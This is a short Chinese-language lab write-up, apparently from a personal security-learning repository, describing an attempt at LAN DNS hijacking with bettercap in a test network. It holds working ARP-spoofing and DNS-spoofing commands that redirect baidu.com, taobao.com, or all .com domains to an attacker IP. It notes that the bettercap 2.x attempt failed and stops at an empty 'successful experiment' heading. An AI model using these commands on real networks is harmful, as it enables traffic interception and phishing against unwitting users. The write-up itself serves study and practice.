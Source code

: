 # 局域网DNS劫持（失败）

局域网内的DNS劫持可以依靠arp欺骗网关来达到修改dns请求，将其请求到我们指定的网站。

这里我们使用bettercap来完成局域网DNS劫持实验

kali_hacker：192.168.41.130

win7_hackde:192.168.41.128

win10_apache:100.66.10.247

安装bettercap

```
apt-get install bettercap
```

创建一个 dns.conf 文件，下面这个dns语句的意思是：所有的.com结尾的网站全部解析到我的本地Http服务器, .*\.com就是一个正则，也可以是自定义的正则　

```
169.254.197.219  .*\.com
```

查看网关地址

```
netstat -rn
route -n　　
```

因为安装的使bettercap2.x，感觉没有1.x操作简单，完全变了。所以重新找到一篇[文章](https://blog.csdn.net/qq_36119192/article/details/84582109)实验:

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

```
ipconfig/all    #查看DNS服务器
```

![分享图片](../../../../#ImageAssets/20191103181548163464.png)

DNS欺骗之前，我们先得进行ARP欺骗，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.41.128    #设置arp欺骗的主机以逗号分隔，默认是整个子网
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 100.66.10.247   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是100.66.10.247
```

使用bettercap2.x实验失败，一直返回endpoint。

还是使用ettercap实验

# 成功实验

